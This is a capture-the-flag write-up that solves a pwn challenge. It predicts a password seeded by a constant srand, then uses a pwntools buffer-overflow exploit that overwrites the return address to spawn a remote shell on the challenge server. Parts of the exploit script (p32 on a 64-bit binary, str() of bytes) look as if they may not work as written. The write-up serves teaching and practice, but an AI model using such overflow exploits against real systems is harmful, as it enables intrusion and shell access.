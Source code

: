 # Tr0ll gu3ssing

### Description
Challenge : [Tr0ll gu3ssing](./tr0ll_gu3ssing)<br>
Category  : Pwn<br>
Your task is to find the password without getting trolled, Can you do it?<br>
Connect here to see: 3.91.133.232 4001<br>

![alt challenge](./tr0ll_gu3ssing.jpg)

### Playing with the binary

```
$ file tr0ll_gu3ssing
tr0ll_gu3ssing: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter 
/lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=7c962869e837557961eed8c73b617c0b4da0a43a, not stripped
$ checksec --file=tr0ll_gu3ssing
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   74) Symbols
```
When we execute the binary locally, it keeps asking for a password
```
$ ./tr0ll_gu3ssing
Can you guess the password : password
Wrong !
Can you guess the password : ^C
```
So I opened the binary in Ghidra and I found that the main() function calls rand_str() function in a while loop which generates<br>
31 random numbers and uses them to construct a 31 bytes long password and waits for input, if we can guess the random password<br>
it will execute system("/bin/cat flag.txt") and give us the flag. At first glance I noticed that the srand() function is  using<br>
a constant as a seed, which means the random numbers will be repeated for every execution of the program and the passwords too<br>
```C
undefined8 main(void)

{
  int iVar1;
  char local_48 [32];
  undefined8 local_28;
  undefined8 local_20;
  undefined8 local_18;
  undefined8 local_10;
  
  local_28 = 0x7461632f6e69622f;	//These lines represent
  local_20 = 0x78742e67616c6620;	//the string "/bin/cat flag.txt"
  local_18 = 0x74;			//
  local_10 = 0;				//
  setup();
  srand(0xfedcba98);  			// <== the srand seed is a constant
  while( true ) {
     rand_str(password,0x1f);
     printf("Can you guess the password : ");
     __isoc99_scanf(&DAT_00400ab6,local_48);
     iVar1 = strcmp(local_48,password);
     if (iVar1 == 0) break;
     puts("Wrong !");
  }
  system((char *)&local_28);		//This lines executes "/bin/cat flag.txt"
  return 0;
}
```
So I executed the program with ltrace to copy the password, than executed the program again to enter the password
```
$ ltrace ./tr0ll_gu3ssing
setvbuf(0x7f8175d56500, 0, 2, 0)                         = 0
setvbuf(0x7f8175d56420, 0, 2, 0)                         = 0
srand(0xfedcba98, 0, 0, 3072)                            = 0
rand(0x6010b0, 31, 30, 0xffffffff)                       = 0x349fd0f7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 29, 0x7ffd255acff0) = 0x21c7f95e
rand(0x7f8175d555a0, 0x7ffd255acfb4, 28, 0x7ffd255acff0) = 0x54e61835
rand(0x7f8175d555a0, 0x7ffd255acfb4, 27, 0x7ffd255acff0) = 0x4b7b9ebd
rand(0x7f8175d555a0, 0x7ffd255acfb4, 26, 0x7ffd255acff0) = 0x228d91b9
rand(0x7f8175d555a0, 0x7ffd255acfb4, 25, 0x7ffd255acff0) = 0x6c61ddb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 24, 0x7ffd255acff0) = 0x2ed20179
rand(0x7f8175d555a0, 0x7ffd255acfb4, 23, 0x7ffd255acff0) = 0xb9716cb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 22, 0x7ffd255acff0) = 0xfd12d8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 21, 0x7ffd255acff0) = 0x7e7d104c
rand(0x7f8175d555a0, 0x7ffd255acfb4, 20, 0x7ffd255acff0) = 0x311d19a4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 19, 0x7ffd255acff0) = 0x246dc994
rand(0x7f8175d555a0, 0x7ffd255acfb4, 18, 0x7ffd255acff0) = 0x22944d10
rand(0x7f8175d555a0, 0x7ffd255acfb4, 17, 0x7ffd255acff0) = 0x50177ec7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 16, 0x7ffd255acff0) = 0x77677ea4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 15, 0x7ffd255acff0) = 0x3e78d0eb
rand(0x7f8175d555a0, 0x7ffd255acfb4, 14, 0x7ffd255acff0) = 0x3813b56
rand(0x7f8175d555a0, 0x7ffd255acfb4, 13, 0x7ffd255acff0) = 0x3f6dc89
rand(0x7f8175d555a0, 0x7ffd255acfb4, 12, 0x7ffd255acff0) = 0x324c42e8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 11, 0x7ffd255acff0) = 0x2590bee1
rand(0x7f8175d555a0, 0x7ffd255acfb4, 10, 0x7ffd255acff0) = 0x238078f5
rand(0x7f8175d555a0, 0x7ffd255acfb4, 9, 0x7ffd255acff0)  = 0x75cff8db
rand(0x7f8175d555a0, 0x7ffd255acfb4, 8, 0x7ffd255acff0)  = 0x5f982bb7
rand(0x7f8175d555a0, 0x7ffd255acfb4, 7, 0x7ffd255acff0)  = 0x33b26bc4
rand(0x7f8175d555a0, 0x7ffd255acfb4, 6, 0x7ffd255acff0)  = 0x729ab7d8
rand(0x7f8175d555a0, 0x7ffd255acfb4, 5, 0x7ffd255acff0)  = 0x345fb224
rand(0x7f8175d555a0, 0x7ffd255acfb4, 4, 0x7ffd255acff0)  = 0x16cb4791
rand(0x7f8175d555a0, 0x7ffd255acfb4, 3, 0x7ffd255acff0)  = 0x5a597d0
rand(0x7f8175d555a0, 0x7ffd255acfb4, 2, 0x7ffd255acff0)  = 0x11cc008c
rand(0x7f8175d555a0, 0x7ffd255acfb4, 1, 0x7ffd255acff0)  = 0x752d837e
rand(0x7f8175d555a0, 0x7ffd255acfb4, 0, 0x7ffd255acff0)  = 0x757a8394
printf("Can you guess the password : "Can you guess the password : )                  = 29
__isoc99_scanf(0x400ab6, 0x7ffd255ad060, 0, 0password
)           = 1
strcmp("password", "pgFAg3m50ZnhgCVu11oihVKpTpb28UU")    = -6	    // <== here is the first generated password
puts("Wrong !" ^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
$ ./tr0ll_gu3ssing
Can you guess the password : pgFAg3m50ZnhgCVu11oihVKpTpb28UU
/bin/cat: flag.txt: No such file or directory
```
Cool! Now let's try it in the remote host
```
$ nc 3.91.133.232 4001
Can you guess the password : pgFAg3m50ZnhgCVu11oihVKpTpb28UU
We've been tricked, we've been backstabbed and we've been quite possibly, bambooozled.
```
It seems that the flag.txt file was just a trap, this is a pwn challenge afterall, and all we did until now is reversing<br>
so let's try something different, notice that the main() function uses scanf() for input, and there is no length check!<br>
We have a buffer-overflow with no stack-canary and with PIE disabled, so let's write an exploit:<br>
### Exploit
1_ overwrite the return address with system() gadget address.<br>
2_ overwrite the "/bin/cat flag.txt" string with "/bin/bash\0".<br>
3_ enter the right password for the 3rd iteration to break the loop and get a shell.<br>
```python3
#!/usr/bin/env python3

from pwn import *

log.info(ELF("./tr0ll_gu3ssing").checksec())

io = remote('3.91.133.232', 4001)

system_gadget = p32(0x400870)

log.info('Overwriting the return address with system() gadget address')
io.sendline('A'*0x48 + str(system_gadget))

log.info('Overwriting the string "/bin/cat flag.txt" with "/bin/bash\0"')
io.sendline('A'*0x20 + '/bin/bash')

log.info('Sending the 3rd password to break the loop')
io.sendline('IQ0RiDmPhQKcCi4RSXvK75mHxor2y6t')

io.interactive()
io.close()
```
# Flag
```
$ ./exploit.py
[*] '/home/shell/Documents/shellmates/tr0ll_gu3ssing/tr0ll_gu3ssing'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 3.91.133.232 on port 4001: Done
[*] Overwriting the return address with system() gadget address
[*] Overwriting the string "/bin/cat flag.txt" with "/bin/bash\x00
[*] Sending the 3rd password to break the loop
[*] Switching to interactive mode
Can you guess the password : Wrong !
Can you guess the password : Wrong !
Can you guess the password : $ ls
Th3_acTu4l_fl4G.txt
flag.txt
runserver.sh
tr0ll_gu3ssing
$ cat Th3_acTu4l_fl4G.txt
shellmates{ev3n_sc4nf_ha5_pr0bl3ms}
$
[*] Closed connection to 3.91.133.232 port 4001
```
